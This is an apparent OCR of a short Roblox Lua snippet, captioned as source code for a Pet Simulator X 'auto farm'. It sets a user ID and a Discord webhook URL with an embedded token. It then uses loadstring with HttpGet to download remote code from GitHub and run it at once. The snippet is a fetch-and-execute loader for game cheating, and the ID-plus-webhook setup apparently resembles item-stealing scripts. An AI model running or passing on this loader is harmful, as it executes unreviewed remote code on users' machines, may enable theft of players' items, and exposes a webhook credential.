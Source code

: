 _G.UserID = 1240550732
_G.WebHook = "https://discord.com/api/webhooks/1012369659988811776/zBRuTkJw5m_DH9djc0SrpOmTG8NjAvvVvi6xn8v-qwr5LqKDCHO_p6lywWkuS_jxDrQ2"
loadstring(game:HttpGet('https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua'))()
